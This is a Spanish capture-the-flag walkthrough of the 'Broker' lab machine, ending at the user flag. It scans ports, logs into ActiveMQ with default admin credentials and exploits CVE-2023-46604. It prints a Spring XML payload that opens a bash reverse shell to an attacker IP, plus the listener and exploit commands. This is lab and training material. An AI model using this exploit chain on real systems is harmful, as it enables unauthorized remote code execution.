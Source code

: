 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Broker

`10.10.11.243 Ip`

## Realizar un escaner de puertos con nmap.

```
sudo nmap -sS -p- -Pn --open 10.10.11.243 -vvv
```

**Puertos descubiertos**&#x20;

```
───────┼───────────────────────────────────────────────────────────────────────────────────────
   1   │ PORT      STATE SERVICE     REASON
   2   │ 22/tcp    open  ssh         syn-ack ttl 63
   3   │ 80/tcp    open  http        syn-ack ttl 63
   4   │ 1883/tcp  open  mqtt        syn-ack ttl 63
   5   │ 5672/tcp  open  amqp        syn-ack ttl 63
   6   │ 8161/tcp  open  patrol-snmp syn-ack ttl 63
   7   │ 40157/tcp open  unknown     syn-ack ttl 63
   8   │ 61613/tcp open  unknown     syn-ack ttl 63
   9   │ 61614/tcp open  unknown     syn-ack ttl 63
  10   │ 61616/tcp open  unknown     syn-ack ttl 63
```

### Servicios de puertos

```
 sudo nmap -sV -p 22,80,1883,5672,8161,40157,61613,61614,61616  10.10.11.243 -vvv
```

```
PORT      STATE SERVICE    REASON         VERSION
22/tcp    open  ssh        syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http       syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
1883/tcp  open  mqtt       syn-ack ttl 63
5672/tcp  open  amqp?      syn-ack ttl 63
8161/tcp  open  http       syn-ack ttl 63 Jetty 9.4.39.v20210325
40157/tcp open  tcpwrapped syn-ack ttl 63
61613/tcp open  stomp      syn-ack ttl 63 Apache ActiveMQ
61614/tcp open  http       syn-ack ttl 63 Jetty 9.4.39.v20210325
61616/tcp open  apachemq   syn-ack ttl 63 ActiveMQ OpenWire transport
```

## Ir al navegador&#x20;

**Cuando fui al navegador a la direccion `10.10.11.243 Ip.`**

<figure><img src="../../../.gitbook/assets/SignIn.png" alt=""><figcaption></figcaption></figure>

**Realice una pruba con contraseña y usuario basica: admin y admin y logre ingresar a este sitio.**

<figure><img src="../../../.gitbook/assets/ActiveMQ.png" alt=""><figcaption></figcaption></figure>

**Hasta ahora puedo saber que utiliza el servicio ActiveMQ ,tambien lo descubrimos con nmap.**

```
   1  | 61613/tcp open  stomp      syn-ack ttl 63 Apache ActiveMQ
   2  │ 61616/tcp open  apachemq   syn-ack ttl 63 ActiveMQ OpenWire transport
```

¿Qu**e es ActiveMQ**?

Apache ActiveMQ® es el intermediario de mensajes basado en Java, multiprotocolo y de código abierto más popular. Admite protocolos estándar de la industria para que los usuarios obtengan los beneficios de las opciones del cliente en una amplia gama de idiomas y plataformas. Conéctese desde clientes escritos en JavaScript, C, C++, Python, .Net y más. Integre sus aplicaciones multiplataforma utilizando el omnipresente protocolo AMQP . Intercambie mensajes entre sus aplicaciones web usando STOMP sobre websockets. Administre sus dispositivos IoT usando MQTT . Respalde su infraestructura JMS existente y más allá. ActiveMQ ofrece el poder y la flexibilidad para admitir cualquier caso de uso de mensajería.

{% embed url="https://activemq.apache.org/" %}

**Realizando una busqueda mas profunda descubri la vulnerabilidad CVE-2023-46604 de ActiveMQ con la version 5.15.15.**

{% embed url="https://nvd.nist.gov/vuln/detail/CVE-2023-46604?ref=blog.ecoit.com.br" %}

{% embed url="https://mvnrepository.com/artifact/org.apache.activemq/apache-activemq/5.15.15" %}

**La vulnerabilidad de trata de una ejecucion remota.**

**En github existe el codigo para poder explotar esa vulnervilidad.**

{% embed url="https://github.com/rootsecdev/CVE-2023-46604" %}

**Se hace un git clone.**

<figure><img src="../../../.gitbook/assets/Arch.png" alt=""><figcaption></figcaption></figure>

**Se modifica el archivo poc-linux.xml.**

````xml
```xml
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="
 http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
        <list>
            <value>bash</value>
            <value>-c</value>
            <!-- This command will give a reverse shell on port 9001. HTML Entity Encoded. Change IP as needed -->
            <value>bash -i &#x3E;&#x26; /dev/tcp/10.10.14.70/9001 0&#x3E;&#x26;1</value>
        </list>
        </constructor-arg>
    </bean>
</beans>

```
````

**Iniciamos un servidor HTTP Python3 en segundo plano e iniciamos un oyente Netcat.**

```
python -m http.server 
nc -lvvp 9001
```

**Luego se ejecuta el codigo.**

```go
go run main.go -i 10.10.11.243 -p 61616 -u http://10.10.14.70:8000/poc-linux.xml
```

<figure><img src="../../../.gitbook/assets/terminal.png" alt=""><figcaption></figcaption></figure>

**Navegamode por los directorios hasta encontrar user.txt que tiene la primer bandera.**

<figure><img src="../../../.gitbook/assets/Primer.png" alt=""><figcaption></figcaption></figure>

